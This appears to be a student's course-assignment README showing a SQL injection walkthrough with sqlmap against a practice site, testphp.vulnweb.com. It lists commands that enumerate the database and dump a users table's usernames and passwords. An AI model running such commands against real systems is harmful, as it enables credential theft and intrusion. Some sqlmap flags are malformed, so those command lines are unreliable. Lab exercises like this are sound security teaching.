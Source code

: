 # COMP421-InfoSec Assignment 1
# Name: Hamza Asaad Roll No: 231450993

## Pre-quisite Steps Taken
- Installation of ```sqlmap``` on Mac Terminal using the command ```brew install sqlmap```.
- Changed MacOS terminal from ```zsh``` to ```bash``` due to issues with ```sqlmap``` on zsh.

## Steps Performed for SQL Injection Attack
1. Open website ```vulnweb.com``` and proceed to Acuart sub domain ```http://vulnweb.com```.
2. To proceed we must find a link which makes a query paramter request to the SQL database on the backend as such we can browse to the 'artist' tab and click on one of the three links leading us to the page with the link ```http://testphp.vulnweb.com/artists.php?artist=1``` which does indeed contain a query param.
3. We can confirm our request to a SQL DB by appending a quotation at the end and seeing the result ```http://testphp.vulnweb.com/artists.php?artist=1'``` .
4. Now that we have our link and confirmed it uses a SQL based DB we can perform the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs``` to find its databases.
5. Now we can further find tables within these found databases using the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart tables```.
6. We will find 8 tables and focus our attention to the ```users``` table and further use the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` and see the columns within the ```user``` table.
7. Now we will observe 8 columns and target the ```uname``` and ```pass``` column and dump their respective data with the following commands:
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C uname --dump``` 
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C pass --dump```
8. We will find both commands result with us finding ```test``` as both the username and password for the admin panel of the website.

With this we have successfully carried out our SQL Injection Attack resulting in us finding the ```username``` and  ```password``` for the admin panel of the website. Observing the sidebar on the website we can click the ```Sign Up``` button use the username and password we have discovered to Log In.

## List Of Commands Executed
1. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs```
2. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart tables```
3. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` 
4. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C uname --dump```
5.  ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C pass --dump```



